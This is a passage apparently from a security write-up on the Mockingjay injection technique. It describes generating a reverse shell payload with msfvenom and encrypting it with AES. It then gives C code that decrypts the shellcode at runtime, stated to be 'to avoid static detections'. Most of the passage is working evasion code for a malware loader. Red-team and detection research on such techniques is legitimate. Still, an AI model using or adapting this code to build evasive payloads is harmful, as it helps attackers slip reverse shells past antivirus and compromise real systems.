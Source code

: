 ### Payload
Next, I generated a reverse shell shellcode using Metasploit msfvenom and then used the python script [bintoaes.py](https://gist.github.com/caueb/6fa10a0c95fb2ac7b694771354822eff) to encrypt the shellcode using AES.
![](imgs/mockingjay/img01.png)

The payload is going to be decrypted at runtime using this function (borrowed from reenz0h @SEKTOR7net) to avoid static detections on Metasploit shellcode:
```C
int AESDecrypt(char* payload, unsigned int payload_len, char* key, size_t keylen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        return -1;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        return -1;
    }
    if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) {
        return -1;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        return -1;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)payload, (DWORD*)&payload_len)) {
        return -1;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

    return 0;
}
```
